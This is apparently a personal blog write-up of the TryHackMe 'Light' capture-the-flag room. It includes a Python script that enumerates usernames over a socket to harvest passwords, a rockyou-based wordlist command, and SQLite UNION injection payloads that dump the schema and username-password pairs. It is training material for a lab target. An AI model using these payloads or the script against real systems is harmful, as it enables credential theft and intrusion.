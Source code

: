 ```yaml
---
layout: post
title: "THM Light room notes"
date: 2025-03-06 00:00:00 +0100
categories: [thm, hacking, linux]
tags: [ctf, sqlinjection, netcat, nc, python, bash, sql]
---
```


![light](pics/lightroom.png)

### Room: 
[Try LIGHT room on THM](https://tryhackme.com/room/lightroom)

### CTF intro: 
"I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using:

```bash
nc MACHINE_IP 1337
```

You can use the username smokey in order to get started."

### Notes
- With all this info I started as suggested, providing username you will get a password
- First idea actually was not SQL injection, but just a bruteforce, so I wrote a short python script to poke the service:

```python
import socket
import argparse
import time
import re

def brute_force(ip, port, userlist):
    try:
        with open(userlist, "r") as f:
            for user in f:
                user = user.strip()
                print(f"[*] Trying username: {user}")
                
                try:
                    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                    s.connect((ip, port))
                    s.recv(1024)  # Wait for initial prompt (if needed)
                    time.sleep(0.5)  # if need
                    s.sendall(user.encode())  # Send username
                    
                    time.sleep(0.5)  # if need
                    response = s.recv(1024).decode()
                    
                    # Extract password using regex
                    match = re.search(r'Password:\s*(\S+)', response)
                    if match:
                        password = match.group(1)
                        print(f"[+] Found password for {user}: {password}")
                    
                    s.close()
                except Exception as e:
                    print(f"[-] Error: {e}")
    except FileNotFoundError:
        print("[!] Username file not found.")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Brute-force username enumeration over netcat-like service.")
    parser.add_argument("ip", help="Target IP address")
    parser.add_argument("port", type=int, help="Target port number")
    parser.add_argument("userlist", help="Path to the username list file")
    
    args = parser.parse_args()
    
    brute_force(args.ip, args.port, args.userlist)
```

- Preparing wordlist: I count that username must have 14 symbols so decide to create a new list (using rockyou.txt) since it is easy room so quick bash for that:

```bash
grep -o '\b\w\{14\}\b' rockyou.txt > 14_symbols_words.txt
```

- Starting bruteforce I realized since it is a database we could try SQLInjections meanwhile.
- After some time of trying different payloads I found that UNION could work in this case (pay attention to letter cases) and it is a sqlite kind of db:

```sql
' Union 1 '
' Union Select group_concat(sql) From sqlite_master '
' Union Select group_concat(username || '~' || password) From <here will be some table from previous query> '
```

- Actually that's it for this room, python script was kind waste of time from this room point of view but anyway I like to write scripts so no regret haha :D